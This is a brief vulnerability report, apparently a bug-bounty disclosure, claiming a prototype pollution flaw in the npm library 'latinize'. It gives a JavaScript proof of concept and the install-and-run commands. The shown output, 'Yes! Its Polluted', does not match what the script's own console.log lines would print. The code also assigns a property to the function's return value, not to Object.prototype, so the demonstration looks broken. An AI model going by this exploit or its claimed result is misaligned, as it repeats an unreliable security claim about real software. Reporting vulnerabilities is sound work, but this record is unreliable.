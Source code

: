 # Description

`latinize` is a popular library with 12,575 Weekly downloads.It is used to convert accents from strings to latin characters.It is also vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
var latinize = require('latinize');
const obj = {}
console.log('Before: ' + {}.polluted)
latinize(obj['__proto__'], {}).polluted = 'Polluted!'
console.log('After: ' + {}.polluted)
```

2. Execute the following commands in terminal:

```
npm i latinize # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```
